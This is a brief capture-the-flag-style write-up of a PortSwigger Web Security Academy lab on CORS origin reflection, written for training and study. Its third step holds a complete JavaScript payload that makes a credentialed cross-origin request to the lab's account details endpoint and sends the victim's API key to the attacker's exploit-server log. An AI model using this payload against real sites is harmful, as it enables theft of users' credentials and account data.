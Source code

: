## LAB - 1
**lab link: <https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack>**

 **Topic :-** 

- CORS vulnerability with basic origin reflection.

 **To Solve :-**

- Submit the administrator's API key.

 **Procedure :-**

1. Open site in Burp-suite, login with wiener creds.
2. Open the Get accountDetails request in repeater. Add origin header and random site address, to see if it is CORS vuln. which it is.
3. Then open exploit server and in the body write this code-
```
<html>
	<body>
		<script>
			var xhr = new XMLHttpRequest();
			var url = "https://0a8a00ca04c1a6c4d6bbee5f00ca00c8.web-security-academy.net"
			xhr.onreadystatechange = function () {
				if (xhr.readyState == XMLHttpRequest.DONE){
					fetch("/log?key=" + xhr.responseText)
				}
			}
			xhr.open('GET', url + "/accountDetails", true);
			xhr.withCredentials = true;
			xhr.send(null);
		</script>
	</body>
</html>
```
4. Then store and deliver to the victim. and open access log , where admin api key can be seen , submit it. 
